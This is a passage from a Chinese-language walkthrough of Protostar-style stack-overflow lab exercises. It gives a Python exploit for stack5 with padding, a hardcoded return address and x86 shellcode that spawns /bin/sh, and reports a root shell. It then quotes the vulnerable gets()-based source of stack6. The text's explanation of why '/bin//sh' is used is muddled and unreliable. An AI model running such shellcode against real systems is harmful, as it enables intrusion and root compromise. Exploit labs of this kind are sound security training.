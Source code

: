 这个程序就是将/bin/sh程序通过execve运行起来，然后当前程序通过sys_exit结束运行。这里使用/bin//sh而不是/bin/sh是因为linux的机制，如果是"/bin/sh" 那么execve就会将其解析为"/bin/sh"与" "，NULL作为execve的第二个参数的内容，而第二个参数是命令行参数列表，是一个指针，而空指针将导致错误。如果是/bin//sh，execve解析参数列表时，它将只会解析成一个元素，即"/bin//sh"。也就是相当于再说明，"/bin//sh"是一个路径，而不是一个要被指令的命令。如果输入的是"/bin/sh"就相当于是一个要被执行的命令，而" "就是这个命令的参数，为空就会导致空指针问题。

根据上面分析的，脚本代码应该如下：

```python
buffer = "A"*76

ret_add = "\xA0\xfc\xff\xbf"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

#shellcode = "\xcc" * 8

print buffer + ret_add + shellcode
```

运行结果如下，可以看到/bin/sh已经成功被运行了，并且能够正常运行命令，而且权限也为root级别：

<div>
    <center><!--将图片和文字居中-->
    <img src="1-20.png"
         alt="1-20.png"
         style="100%"/>
    <br>  <!--换行-->
    Picture 1-20 <!--标题-->
    </center>
</div>

###### 0x117 stack6

源码：

```C++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}
```